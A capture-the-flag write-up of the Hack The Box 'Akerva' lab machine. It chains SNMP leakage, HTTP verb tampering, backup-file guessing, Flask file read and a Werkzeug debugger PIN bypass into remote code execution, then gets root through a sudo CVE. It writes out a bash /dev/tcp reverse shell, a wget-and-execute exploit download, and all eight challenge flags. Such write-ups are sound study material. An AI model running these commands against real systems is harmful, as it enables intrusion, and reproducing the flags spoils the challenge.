

# Hack The Box Fortress: Akerva - Full Writeup

> **Target:** `10.13.37.11`  
> **Hostname used:** `akerva.htb`  
> **Fortress:** Akerva  
> **Objective:** Find all 8 flags and gain root access  
> **Status:** Completed

---

## Table of Contents

1. [Overview](#overview)
2. [Attack Chain Summary](#attack-chain-summary)
3. [Flags Collected](#flags-collected)
4. [Environment Setup](#environment-setup)
5. [Initial Reconnaissance](#initial-reconnaissance)
6. [Flag 1 - Forgotten HTML Comment](#flag-1---forgotten-html-comment)
7. [WordPress Enumeration](#wordpress-enumeration)
8. [SNMP Enumeration](#snmp-enumeration)
9. [Flag 2 - SNMP Misconfiguration](#flag-2---snmp-misconfiguration)
10. [Flag 3 - HTTP Verb Tampering](#flag-3---http-verb-tampering)
11. [Backup Discovery](#backup-discovery)
12. [Flag 4 - Source Code Backup Leak](#flag-4---source-code-backup-leak)
13. [Flask Application Analysis](#flask-application-analysis)
14. [Flag 5 - Authenticated LFI](#flag-5---authenticated-lfi)
15. [Werkzeug Debug Console PIN Bypass](#werkzeug-debug-console-pin-bypass)
16. [Flag 6 - Hidden User Flag](#flag-6---hidden-user-flag)
17. [Privilege Escalation Enumeration](#privilege-escalation-enumeration)
18. [Root via CVE-2019-18634](#root-via-cve-2019-18634)
19. [Flag 7 - Root Flag](#flag-7---root-flag)
20. [Flag 8 - Secured Note Crypto](#flag-8---secured-note-crypto)
21. [Final Flag List](#final-flag-list)
22. [Troubleshooting Notes](#troubleshooting-notes)
23. [Knowledge Gaps to Study](#knowledge-gaps-to-study)
24. [Clean Command Reference](#clean-command-reference)
25. [Lessons Learned](#lessons-learned)

---

## Overview

Akerva is a Hack The Box Fortress machine built around layered misconfigurations and chained vulnerabilities. The path starts from basic web enumeration, moves into SNMP leakage, abuses an HTTP method-based access control mistake, extracts backups, reviews Flask source code, abuses authenticated arbitrary file read, bypasses Werkzeug's debugger PIN, gains code execution as user `aas`, and finally escalates to root through a vulnerable sudo configuration/version.

The machine is valuable because it teaches a complete attack chain rather than a single bug:

```text
Recon
  -> Web source leak
  -> SNMP process leakage
  -> HTTP verb tampering
  -> Backup extraction
  -> Flask source code review
  -> Authenticated LFI
  -> Werkzeug debugger PIN bypass
  -> RCE as aas
  -> sudo local privilege escalation
  -> root
  -> final crypto flag
```

---

## Attack Chain Summary



---

## Flags Collected

| # | Flag | Source / Vulnerability |
|---:|---|---|
| 1 | `AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}` | HTML source comment |
| 2 | `AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}` | SNMP process argument leak |
| 3 | `AKERVA{IKNoW###VeRbTamper!nG_==}` | HTTP verb tampering against protected script |
| 4 | `AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}` | Flask source code backup leak |
| 5 | `AKERVA{IKNOW#LFi_@_}` | Authenticated LFI reading `/home/aas/flag.txt` |
| 6 | `AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}` | Hidden user flag after Werkzeug RCE |
| 7 | `AKERVA{IkNow_Sud0_sUckS!}` | Root flag after sudo privilege escalation |
| 8 | `AKERVA{IKNOOOWVIGEEENERRRE}` | Base64 + Vigenere note in `/root/secured_note.md` |

---

## Environment Setup

Add the target to `/etc/hosts`:

```bash
sudo sh -c 'echo "10.13.37.11 akerva.htb" >> /etc/hosts'
```

Create a workspace:

```bash
mkdir -p ~/HTB/akerva/{scans,loot,exploit}
cd ~/HTB/akerva
```

Useful tools:

```bash
sudo dnf install -y nmap curl wget unzip git gcc podman nmap-ncat rlwrap
```

On Fedora, `rlwrap` may not be installed by default. It is useful for better reverse-shell interaction:

```bash
sudo dnf install -y rlwrap
```

---

## Initial Reconnaissance

A TCP scan showed three useful services:

```bash
nmap -sC -sV -p- --min-rate 5000 -oA scans/alltcp akerva.htb
```

Important ports:

```text
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 Ubuntu
5000/tcp open  http    Werkzeug/0.16.0 Python/2.7.15+
```

A targeted mixed TCP/UDP scan was also useful because SNMP was exposed on UDP 161:

```bash
sudo nmap -sC -sV -sU -sS -T4 -p U:161,T:22,80,5000 akerva.htb -oA scans/akerva-mixed
```

Key observations:

- Port `80` served a WordPress site.
- Port `5000` served a Flask/Werkzeug application protected by HTTP Basic Auth.
- UDP `161` exposed SNMP information.

---

## Flag 1 - Forgotten HTML Comment

Viewing the page source on the main website revealed developer comments.

Example checks:

```bash
curl -s http://akerva.htb/ | grep -i 'AKERVA\|flag\|comment\|lyderic'
```

The source contained:

```html
<!-- This machine is powered by @lydericlefebvre from Akerva company. -->
<!-- You have to find 8 flags on this machine. Have a nice root! -->
<!-- By the way, the first flag is: AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts} -->
```

Flag:

```text
AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}
```

### Why this matters

HTML comments are not visible in the rendered page, but they are sent to the browser. Developers often leave internal notes, usernames, paths, or flags in comments.

Always check:

```bash
curl -s http://target/ | less
curl -s http://target/ | grep -iE 'todo|fixme|user|pass|flag|key|debug'
```

---

## WordPress Enumeration

The site exposed a WordPress installation.

Useful endpoints:

```bash
curl -s http://akerva.htb/wp-json/wp/v2/users | jq .
curl -i http://akerva.htb/xmlrpc.php
curl -i http://akerva.htb/readme.html
```

The WordPress REST API disclosed the user:

```text
username/slug: aas
```

Media enumeration showed a suspicious image:

```text
http://10.13.37.11/wp-content/uploads/2020/02/aaa.png
```

The image did not become the main exploitation path, but it was still worth checking with:

```bash
wget http://akerva.htb/wp-content/uploads/2020/02/aaa.png -O loot/aaa.png
file loot/aaa.png
exiftool loot/aaa.png
strings loot/aaa.png | head
binwalk loot/aaa.png
```

---

## SNMP Enumeration

SNMP was the next important discovery.

Run:

```bash
snmpwalk -v2c -c public akerva.htb > loot/snmpwalk.txt
```

If `snmpwalk` is unavailable:

```bash
sudo dnf install -y net-snmp-utils
```

Useful SNMP process enumeration:

```bash
snmpwalk -v2c -c public akerva.htb 1.3.6.1.2.1.25.4.2.1.2 > loot/snmp-process-names.txt
snmpwalk -v2c -c public akerva.htb 1.3.6.1.2.1.25.4.2.1.4 > loot/snmp-process-paths.txt
snmpwalk -v2c -c public akerva.htb 1.3.6.1.2.1.25.4.2.1.5 > loot/snmp-process-args.txt
```

Important leaked process paths/arguments included:

```text
/opt/check_backup.sh
/opt/check_devSite.sh
/var/www/html/dev/space_dev.py
/var/www/html/scripts/backup_every_17minutes.sh AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}
```

---

## Flag 2 - SNMP Misconfiguration

Flag:

```text
AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}
```

### Why this matters

SNMP can leak:

- Running processes
- Process command-line arguments
- Installed packages
- Hostname
- Kernel version
- Interface information
- Sometimes credentials or flags passed as arguments

In this case, SNMP leaked both a flag and internal web paths.

---

## Flag 3 - HTTP Verb Tampering

SNMP revealed:

```text
/var/www/html/scripts/backup_every_17minutes.sh
```

Testing with GET:

```bash
curl -i http://akerva.htb/scripts/backup_every_17minutes.sh
```

Returned:

```text
401 Unauthorized
WWW-Authenticate: Basic realm="Restricted Files"
```

Testing with POST:

```bash
curl -i -X POST http://akerva.htb/scripts/backup_every_17minutes.sh
```

Returned `200 OK` and exposed the script source.

The script contained:

```bash
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#
SAVE_DIR=/var/www/html/backups
while true
do
    ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
    echo "Erasing old backups..."
    rm -rf $SAVE_DIR/*
    echo "Backuping..."
    zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*
    echo "Done..."
    sleep 1020
done
```

Flag:

```text
AKERVA{IKNoW###VeRbTamper!nG_==}
```

### What happened

The server protected the file for `GET`, but allowed `POST`. This is method-based access control failure.

Always test alternate methods when a path is blocked:

```bash
for m in GET POST HEAD OPTIONS PUT DELETE; do
  echo "===== $m ====="
  curl -i -X "$m" http://target/protected/path | head
done
```

---

## Backup Discovery

The backup script created files like:

```text
/var/www/html/backups/backup_YYYYMMDDHHMMSS.zip
```

The backup file name was timestamp-based, and the script ran every 17 minutes.

First, get the server time from the HTTP `Date` header:

```bash
curl -i http://akerva.htb/ | grep '^Date:'
```

Then generate likely timestamps from the last two hours and test for the backup file.

```bash
cd ~/HTB/akerva/loot

python3 - << 'PY'
from datetime import timedelta
from email.utils import parsedate_to_datetime
import subprocess
import sys

base = "http://akerva.htb/backups"

headers = subprocess.run(
    ["curl", "-sI", "http://akerva.htb/"],
    capture_output=True,
    text=True
).stdout

date_line = [x for x in headers.splitlines() if x.lower().startswith("date:")][0]
server_time = parsedate_to_datetime(date_line.split(":", 1)[1].strip()).replace(tzinfo=None)

print(f"[*] Server time: {server_time}")
print("[*] Searching backup timestamps from the last 2 hours...")

for sec in range(0, 7200):
    ts = (server_time - timedelta(seconds=sec)).strftime("%Y%m%d%H%M%S")

    for ext in [".zip", ""]:
        url = f"{base}/backup_{ts}{ext}"

        res = subprocess.run(
            ["curl", "-sI", url],
            capture_output=True,
            text=True
        ).stdout

        first = res.splitlines()[0] if res.splitlines() else ""

        if "200 OK" in first:
            print(f"[+] FOUND: {url}")
            sys.exit(0)

print("[-] No backup found in the last 2 hours.")
PY
```

Found backup:

```text
http://akerva.htb/backups/backup_20260710114025.zip
```

Download and extract:

```bash
wget http://akerva.htb/backups/backup_20260710114025.zip -O akerva_backup.zip
mkdir extracted_backup
unzip akerva_backup.zip -d extracted_backup
```

Search inside it:

```bash
grep -RniE "AKERVA|password|passwd|secret|key|auth|flask|werkzeug|space_dev|wp-config|mysql|DB_" extracted_backup 2>/dev/null
```

---

## Flag 4 - Source Code Backup Leak

The backup contained Flask source code:

```text
extracted_backup/var/www/html/dev/space_dev.py
```

Important line:

```python
users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }
```

This exposed both a flag and credentials for the Flask app.

Flag:

```text
AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

Credentials:

```text
username: aas
password: AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

Important shell detail:

Because the password contains `$`, always single-quote it in Bash:

```bash
AUTH='aas:AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}'
```

Double quotes would allow shell variable expansion and break the password.

---

## Flask Application Analysis

The full Flask source:

```python
#!/usr/bin/python

from flask import Flask, request
from flask_httpauth import HTTPBasicAuth
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
auth = HTTPBasicAuth()

users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }

@auth.verify_password
def verify_password(username, password):
    if username in users:
        return check_password_hash(users.get(username), password)
    return False

@app.route('/')
@auth.login_required
def hello_world():
    return 'Hello, World!'

# TODO
@app.route('/download')
@auth.login_required
def download():
    return downloaded_file

@app.route("/file")
@auth.login_required
def file():
        filename = request.args.get('filename')
        try:
                with open(filename, 'r') as f:
                        return f.read()
        except:
                return 'error'

if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)
```

Two major bugs stand out:

1. `/file` is an authenticated arbitrary file read.
2. `/download` references `downloaded_file`, which is undefined. Since Flask is running with `debug=True`, this triggers the Werkzeug debugger.

Authenticate to Flask:

```bash
AUTH='aas:AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}'

curl -i -u "$AUTH" http://akerva.htb:5000/
```

Expected:

```text
Hello, World!
```

---

## Flag 5 - Authenticated LFI

The vulnerable route:

```python
@app.route("/file")
@auth.login_required
def file():
        filename = request.args.get('filename')
        try:
                with open(filename, 'r') as f:
                        return f.read()
        except:
                return 'error'
```

This reads any file the Flask process can access.

Test with `/etc/passwd`:

```bash
curl -s -u "$AUTH" --get \
  --data-urlencode "filename=/etc/passwd" \
  http://akerva.htb:5000/file
```

The output showed user `aas`:

```text
aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash
```

Read the user flag:

```bash
curl -s -u "$AUTH" --get \
  --data-urlencode "filename=/home/aas/flag.txt" \
  http://akerva.htb:5000/file
```

Flag:

```text
AKERVA{IKNOW#LFi_@_}
```

---

## Werkzeug Debug Console PIN Bypass

Triggering `/download` caused a traceback:

```bash
curl -i -u "$AUTH" http://akerva.htb:5000/download
```

Important values shown in the page:

```javascript
EVALEX = true
EVALEX_TRUSTED = false
SECRET = "hCCHhME5LUaXNZxC3IUl"
```

The page was a Werkzeug debugger page, but the console was locked with a PIN.

### Why PIN bypass was possible

Werkzeug's PIN is generated from semi-stable local machine values, including:

- Process username
- Flask module name
- Flask app class name
- Flask module file path
- MAC address as decimal
- Machine ID

Because we had LFI, we could read those values from the target.

Read the Werkzeug source:

```bash
curl -s -u "$AUTH" --get \
  --data-urlencode "filename=/usr/local/lib/python2.7/dist-packages/werkzeug/debug/__init__.py" \
  http://akerva.htb:5000/file \
  -o werkzeug_debug_init.py

grep -nE "get_pin|get_machine_id|cookiesalt|pinsalt|uuid|getpass|modname|username" werkzeug_debug_init.py
```

Relevant functions:

```text
def get_machine_id()
def get_pin_and_cookie_name(app)
private_bits = [str(uuid.getnode()), get_machine_id()]
h.update(b"cookiesalt")
h.update(b"pinsalt")
```

### Collect PIN inputs via LFI

```bash
mkdir -p pin_data

lfi() {
  curl -s -u "$AUTH" --get \
    --data-urlencode "filename=$1" \
    http://akerva.htb:5000/file
}

lfi /proc/self/status | tee pin_data/status.txt
lfi /etc/passwd | tee pin_data/passwd.txt
lfi /proc/self/cgroup | tee pin_data/cgroup.txt
lfi /etc/machine-id | tee pin_data/machine-id.txt
lfi /proc/sys/kernel/random/boot_id | tee pin_data/boot_id.txt
lfi /proc/net/dev | tee pin_data/net-dev.txt
lfi /sys/class/net/ens33/address | tee pin_data/mac_ens33.txt
```

Collected values:

```text
Process: python
UID: 1000 -> aas
Interface: ens33
MAC: a2:de:ad:84:21:be
machine-id: 258f132cd7e647caaf5510e3aca997c1
boot_id: a0345e4f-f90e-4728-afac-aa2edde263bd
```

The valid PIN found was:

```text
106-407-068
```

Authenticate to the debugger:

```bash
PIN='106-407-068'

curl -s -u "$AUTH" http://akerva.htb:5000/download -o debug.html
SECRET=$(grep -oP 'SECRET = "\K[^"]+' debug.html)

curl -s -u "$AUTH" -c wz_cookies.txt \
"http://akerva.htb:5000/download?__debugger__=yes&cmd=pinauth&pin=$PIN&s=$SECRET"
```

Successful response:

```json
{"exhausted": false, "auth": true}
```

### Command execution test

```bash
curl -s -u "$AUTH" http://akerva.htb:5000/download -o debug.html
SECRET=$(grep -oP 'SECRET = "\K[^"]+' debug.html)
FRAME=$(grep -oP 'id="frame-\K[0-9]+' debug.html | tail -n 1)

curl -s -u "$AUTH" -b wz_cookies.txt --get \
  --data-urlencode "__debugger__=yes" \
  --data-urlencode "cmd=__import__('os').popen('id').read()" \
  --data-urlencode "frm=$FRAME" \
  --data-urlencode "s=$SECRET" \
  http://akerva.htb:5000/download
```

Result:

```text
uid=1000(aas) gid=1000(aas) groups=1000(aas),24(cdrom),30(dip),46(plugdev)
```

### Reverse shell

Start listener:

```bash
rlwrap -cAr nc -lvnp 4444
```

Trigger reverse shell:

```bash
LHOST='10.10.15.77'
LPORT='4444'

curl -s -u "$AUTH" http://akerva.htb:5000/download -o debug.html
SECRET=$(grep -oP 'SECRET = "\K[^"]+' debug.html)
FRAME=$(grep -oP 'id="frame-\K[0-9]+' debug.html | tail -n 1)

curl -s -u "$AUTH" -b wz_cookies.txt --get \
  --data-urlencode "__debugger__=yes" \
  --data-urlencode "cmd=__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'\")" \
  --data-urlencode "frm=$FRAME" \
  --data-urlencode "s=$SECRET" \
  http://akerva.htb:5000/download
```

Shell received:

```text
aas@Leakage:~$
```

Stabilize:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## Flag 6 - Hidden User Flag

Inside `/home/aas`:

```bash
cd /home/aas
ls -la
cat flag.txt
cat .hiddenflag.txt
```

Output:

```text
AKERVA{IKNOW#LFi_@_}
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

Flag:

```text
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

---

## Privilege Escalation Enumeration

SSH key injection was considered, but `.ssh` and `authorized_keys` were immutable:

```bash
lsattr -d /home/aas/.ssh /home/aas/.ssh/authorized_keys
```

Output:

```text
----i---------e--- /home/aas/.ssh
----i---------e--- /home/aas/.ssh/authorized_keys
```

The immutable bit `i` prevents modification even by the file owner. Only root can remove it with `chattr -i`.

`sudo -l` was not usable because the known Flask password was not the system password:

```text
sudo: 3 incorrect password attempts
```

Sudo version:

```bash
sudo --version
```

Output:

```text
Sudo version 1.8.21p2
```

Cron jobs:

```bash
cat /etc/crontab
```

Relevant lines:

```text
* * * * * aas /opt/check_backup.sh
* * * * * aas /opt/check_devSite.sh
```

The cron jobs ran as `aas`, not root, so they were not useful for privilege escalation.

SUID scan:

```bash
find / -perm -4000 -type f -ls 2>/dev/null
```

No unusual custom SUID binary was found. The useful path was the sudo local privilege escalation.

---

## Root via CVE-2019-18634

The target used:

```text
sudo 1.8.21p2
```

The intended exploit path was CVE-2019-18634, a sudo `pwfeedback` buffer overflow issue. A public PoC was used.

### Problem: Fedora compiled binary failed

Compiling on Fedora produced a binary requiring a newer glibc:

```text
./exploit: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found
```

This happened because the target was older Ubuntu, while Fedora compiled against a newer libc.

### Fix: compile with Ubuntu 18.04 container

On Fedora:

```bash
cd ~/HTB/akerva/loot

git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
cd sudo-cve-2019-18634

podman run --rm -it \
  -v "$PWD":/work:Z \
  -w /work \
  ubuntu:18.04 \
  bash
```

Inside the Ubuntu 18.04 container:

```bash
apt update
apt install -y gcc libc6-dev
gcc -o dcr exploit.c
ls -lh dcr
exit
```

Back on Fedora, serve the compiled binary:

```bash
cd ~/HTB/akerva/loot/sudo-cve-2019-18634
python3 -m http.server 8001
```

On the target:

```bash
cd /tmp
rm -f dcr
wget http://10.10.15.77:8001/dcr -O dcr
chmod +x dcr
./dcr
```

Output showed the exploit succeeded:

```text
[sudo] password for aas:
Are you on drugs?
whoami
root
```

Confirmed root:

```bash
id
whoami
```

---

## Flag 7 - Root Flag

As root:

```bash
bash -i
cd /root
ls
cat flag.txt
```

Output:

```text
AKERVA{IkNow_Sud0_sUckS!}
```

Flag:

```text
AKERVA{IkNow_Sud0_sUckS!}
```

---

## Flag 8 - Secured Note Crypto

Root directory contained:

```text
/root/secured_note.md
```

Contents:

```text
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK

@AKERVA_FR | @lydericlefebvre
```

First decode Base64:

```bash
cat /root/secured_note.md | grep -v '@' | tr -d '\n' | base64 -d
```

Decoded ciphertext:

```text
GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE
```

This was still encrypted. The final step was a Vigenere-style cipher. Solving it produced:

```text
WELLDONEFORSOLVINGTHISCHALLENGEYOUCANSENDYOURRESUMEHEREATRECRUTEMENTAKERVACOMANDVALIDATETHELASTFLAGWITHAKERVAIKNOOOWVIGEEENERRRE
```

Readable message:

```text
WELL DONE FOR SOLVING THIS CHALLENGE.
YOU CAN SEND YOUR RESUME HERE AT RECRUTEMENT@AKERVA.COM
AND VALIDATE THE LAST FLAG WITH AKERVA{IKNOOOWVIGEEENERRRE}
```

Flag:

```text
AKERVA{IKNOOOWVIGEEENERRRE}
```

---

## Final Flag List

```text
1. AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}
2. AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}
3. AKERVA{IKNoW###VeRbTamper!nG_==}
4. AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
5. AKERVA{IKNOW#LFi_@_}
6. AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
7. AKERVA{IkNow_Sud0_sUckS!}
8. AKERVA{IKNOOOWVIGEEENERRRE}
```

---

## Troubleshooting Notes

### 1. Password contains `$`

Bad:

```bash
AUTH="aas:AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}"
```

Good:

```bash
AUTH='aas:AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}'
```

Reason: double quotes allow shell variable expansion; single quotes preserve the password exactly.

---

### 2. `wfuzz` not available on Fedora

Fedora may not package `wfuzz` directly.

Use Python/curl loops instead, as shown in the backup discovery section.

Alternative:

```bash
sudo dnf install -y pipx python3-pip
pipx ensurepath
pipx install wfuzz
```

---

### 3. Reverse shell stopped working after VPN reconnect

Your tun0 IP changed from:

```text
10.10.15.76
```

to:

```text
10.10.15.77
```

Always recheck:

```bash
ip -4 addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'
```

Then update `LHOST`.

---

### 4. HTTP server returns 404 for `dcr`

A 404 means the target can reach your server, but the file is not in the served directory.

Fix:

```bash
cd ~/HTB/akerva/loot/sudo-cve-2019-18634
ls -lh dcr
python3 -m http.server 8001
```

Test locally:

```bash
curl -I http://127.0.0.1:8001/dcr
```

Need:

```text
HTTP/1.0 200 OK
```

---

### 5. Fedora-compiled exploit gives GLIBC error

Error:

```text
GLIBC_2.34 not found
```

Reason: Fedora compiled against newer glibc than the target has.

Fix: compile in Ubuntu 18.04 container.

---

### 6. Cannot modify `authorized_keys`

Reason:

```text
----i---------e--- /home/aas/.ssh
----i---------e--- /home/aas/.ssh/authorized_keys
```

The immutable bit prevents modification. Only root can remove it:

```bash
chattr -i /home/aas/.ssh/authorized_keys
```

As `aas`, this was not possible.

---

## Knowledge Gaps to Study

### 1. HTTP Verb Tampering

What to learn:

- Difference between GET, POST, HEAD, OPTIONS, PUT, DELETE
- Method-based access control
- Why blocking only GET is not enough

Practice:

```bash
curl -i -X GET http://target/path
curl -i -X POST http://target/path
curl -i -X OPTIONS http://target/path
```

---

### 2. SNMP Misconfiguration

What to learn:

- SNMP community strings
- `public` default community
- Process enumeration through SNMP OIDs
- Why command-line arguments are sensitive

Useful command:

```bash
snmpwalk -v2c -c public target
```

---

### 3. Backup Leakage

What to learn:

- Predictable backup names
- Timestamp-based files
- Why backups should not be stored under web root
- Why `.zip` files can expose source code and secrets

Key idea:

```text
If /var/www/html is backed up into /var/www/html/backups, the backup may become web-accessible.
```

---

### 4. Source Code Review

What to learn:

- Hardcoded credentials
- Flask routes
- Authentication decorators
- Dangerous file operations
- `debug=True` risk

Dangerous pattern:

```python
filename = request.args.get('filename')
open(filename).read()
```

---

### 5. LFI / Arbitrary File Read

What to learn:

- Difference between LFI and arbitrary file read
- Linux filesystem paths
- Valuable files:
  - `/etc/passwd`
  - `/etc/hostname`
  - `/proc/self/status`
  - `/proc/self/cmdline`
  - `/proc/self/cgroup`
  - `/etc/machine-id`
  - Application config files

---

### 6. Werkzeug Debugger PIN

What to learn:

- What Flask debug mode does
- Werkzeug debugger console
- Why exposing debug mode is dangerous
- How PIN generation uses local machine values
- How LFI can leak those values

Important inputs:

```text
username
modname
app class
module file path
MAC address
machine-id
```

---

### 7. Linux File Attributes

What to learn:

- Standard permissions: `rwx`
- Ownership and groups
- Extended attributes via `lsattr`
- Immutable bit `i`

Command:

```bash
lsattr file
```

Meaning:

```text
i = immutable, cannot modify/delete even as owner
```

---

### 8. Local Privilege Escalation

What to learn:

- Difference between remote code execution and local privilege escalation
- Why a local exploit must run on the vulnerable machine
- Sudo CVEs
- Binary compatibility and glibc versions

Key lesson from this box:

```text
Compiling on Fedora produced a binary incompatible with Ubuntu 18.04.
Compile in a matching container instead.
```

---

### 9. Base64 and Vigenere

What to learn:

- Base64 is encoding, not encryption
- Vigenere is classical polyalphabetic encryption
- CTF notes often use multiple layers

Workflow:

```text
Read note
  -> Base64 decode
  -> Identify ciphertext
  -> Try classical cipher solver
  -> Extract flag
```

---

## Clean Command Reference

### Re-trigger Werkzeug reverse shell

```bash
cd ~/HTB/akerva/loot

AUTH='aas:AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}'
PIN='106-407-068'
LHOST='10.10.15.77'
LPORT='4444'

curl -s -u "$AUTH" http://akerva.htb:5000/download -o debug.html
SECRET=$(grep -oP 'SECRET = "\K[^"]+' debug.html)

curl -s -u "$AUTH" -c wz_cookies.txt \
"http://akerva.htb:5000/download?__debugger__=yes&cmd=pinauth&pin=$PIN&s=$SECRET"

curl -s -u "$AUTH" http://akerva.htb:5000/download -o debug.html
SECRET=$(grep -oP 'SECRET = "\K[^"]+' debug.html)
FRAME=$(grep -oP 'id="frame-\K[0-9]+' debug.html | tail -n 1)

curl -s -u "$AUTH" -b wz_cookies.txt --get \
  --data-urlencode "__debugger__=yes" \
  --data-urlencode "cmd=__import__('os').system(\"bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'\")" \
  --data-urlencode "frm=$FRAME" \
  --data-urlencode "s=$SECRET" \
  http://akerva.htb:5000/download
```

Listener:

```bash
rlwrap -cAr nc -lvnp 4444
```

---

### Compile sudo exploit correctly

```bash
cd ~/HTB/akerva/loot/sudo-cve-2019-18634

podman run --rm -it \
  -v "$PWD":/work:Z \
  -w /work \
  ubuntu:18.04 \
  bash
```

Inside container:

```bash
apt update
apt install -y gcc libc6-dev
gcc -o dcr exploit.c
exit
```

Serve:

```bash
python3 -m http.server 8001
```

On target:

```bash
cd /tmp
rm -f dcr
wget http://10.10.15.77:8001/dcr -O dcr
chmod +x dcr
./dcr
```

---

## Lessons Learned

1. **Always inspect page source.** The first flag was directly in an HTML comment.
2. **Do UDP scanning.** SNMP on UDP 161 was essential.
3. **SNMP process args can be critical.** They leaked flags and internal paths.
4. **Try alternate HTTP methods.** GET was blocked, POST exposed a protected script.
5. **Backups under web root are dangerous.** They leaked application source code.
6. **Source code review wins.** The Flask source revealed credentials, LFI, and debug mode.
7. **LFI can become RCE indirectly.** Here it leaked values needed to bypass Werkzeug's PIN.
8. **Do not ignore debugger pages.** Werkzeug debug console gave code execution.
9. **Linux attributes matter.** Immutable `.ssh` blocked easy SSH persistence.
10. **Compile exploits for the target environment.** Fedora binaries may fail on older Ubuntu.
11. **Root is not always the final step.** The final flag was hidden behind a crypto note.

---

## Final Result

Akerva was fully completed with all 8 flags found and root access achieved.

```text
Root obtained: yes
All flags found: yes
Final flag: AKERVA{IKNOOOWVIGEEENERRRE}
```
